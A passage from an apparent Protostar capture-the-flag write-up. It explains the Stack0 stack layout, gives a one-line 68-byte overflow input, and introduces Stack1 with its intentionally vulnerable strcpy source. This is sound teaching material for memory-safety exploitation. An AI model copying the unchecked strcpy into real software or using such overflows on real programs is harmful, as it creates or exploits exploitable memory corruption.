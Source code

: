 可以看到**buffer**的位置是`esp+0x1c`， **modified**变量在`esp+0x5c`， 二者距离是**0x40**，也就是**64个字节大小**，通过`输入超过64个字节的数据`，就能**覆盖modified变量**.

`python -c "print('A'*68)" | ./stack0`

| stack |
| :--- |
| esp + 0x1c |
|       ... |
|       ... |
| esp + 0x5c |

## Stack1

### About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend. Protostar is **little endian**

{% code title="stack1.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
{% endcode %}
